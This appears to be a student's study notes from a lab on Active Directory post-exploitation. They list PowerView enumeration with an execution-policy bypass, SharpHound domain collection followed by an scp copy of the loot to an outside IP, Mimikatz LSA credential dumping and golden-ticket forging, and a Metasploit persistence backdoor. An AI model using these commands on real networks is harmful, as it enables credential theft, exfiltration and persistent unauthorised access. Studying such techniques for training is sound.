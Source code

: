 ```yaml
---
description: Maintaining access with mimikatz, bloodhound, powerview and msfvenom
---
```


# Post-Exploitation Basics

### Powerview

<pre><code>powershell -ep bypass
. .\Downloads\PowerView.ps1   #init powerview, the dot at first loads script to environment not run it directly
<strong>Get-NetUser | select cn
</strong>Get-WmiObject -class Win32_Share
Get-NetComputer -fulldata | select operatingsystem
psexec.exe is used to run commands on other systems
</code></pre>

find the ultimate powerview cheatsheet

### Bloodhound

```
RHOST (Sharphound, the collector tool for bloodhound)
. .\Downloads\SharpHound.ps1
Invoke-Bloodhound -CollectionMethod All -Domain CONTROLLER.local -ZipFileName loot.zip

#Apparently above commands are not for bloodhound 4.3 and above, use .exe instead

./SharpHound.exe --CollectionMethods All --ZipFileName output.zip
scp .\20240430053252_output.zip jtripz@10.9.200.182:/tmp #no extra perms needed

LHOST
neo4j console #username neo4j and pass you set
bloodhound
#importing graphs returned bad json file but uploading files worked
run analysis on these json files and graphs as required
```

<figure><img src="../.gitbook/assets/image (60).png" alt=""><figcaption></figcaption></figure>

### Mimikatz

```
privilege::debug #get 20 ok
lsadump::lsa /patch
kerberos::golden /user: /domain: /sid: /krbtgt: /id:
```

<div align="left"><figure><img src="../.gitbook/assets/image (61).png" alt="" width="435"><figcaption></figcaption></figure></div>

<div align="left"><figure><img src="../.gitbook/assets/image (62).png" alt="" width="394"><figcaption></figcaption></figure></div>

<figure><img src="../.gitbook/assets/image (63).png" alt=""><figcaption><p>FQDN of the domain, SID (Security Identifier) of the domain, username of the account you want access to and the KRBTGT NTLM hash.</p></figcaption></figure>

KRBTGT is an automatically created default account used when a Microsoft Active Directory domain is created. Its main purpose is to authenticate Kerberos tickets as the Key Distribution Center (KDC) account.

**Run persistence module on msf after establishing reverse shell to maintain a backdoor**
